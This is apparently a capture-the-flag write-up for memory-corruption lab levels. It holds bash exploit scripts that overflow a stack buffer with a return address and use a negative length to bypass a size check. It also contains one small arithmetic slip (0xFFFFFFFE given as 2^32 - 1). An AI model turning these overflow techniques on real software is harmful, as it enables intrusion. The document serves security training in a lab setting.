 ## Level 3.0

`./memory.sh 152 "\xfa\x19\x40"`

## Level 3.1

` ./memory.sh 104 "\x16\x1c\x40"`

## Level 4.0

Inputting a negative integer works because the check in the `challenge` procedure is always verified (any negative number is smaller than whatever positive constant is being used to do the check). This number, interpreted as a two's complement by the check, is instead read like a giant number by the `read` syscall that gets the payload text.

For example, if I input -2 as my payload length, it's saved in the stack as a 32-bit number in two's complement: `0xFFFFFFFE`. This number is then read by the `read` syscall like $2^{32} - 1$

How is the check implemented here? 

**memory.sh**

```shell
#!/bin/bash

file="/challenge/*"

payload_size=$1
payload_size=$((payload_size * -1))
append_string=$(echo -e "\x9a\x20\x40")

string=$(printf '1%.0s' $(seq 1 $(($payload_size * -1))))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

printf "%d %s" "$payload_size" "$string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```

`./memory.sh 72`

## Level 4.1

```shell
#!/bin/bash

file="/challenge/*"

payload_size=$1
payload_size=$((payload_size * -1))
append_string=$(echo -e "\x70\x15\x40")

string=$(printf '1%.0s' $(seq 1 $(($payload_size * -1))))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

printf "%d %s" "$payload_size" "$string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```
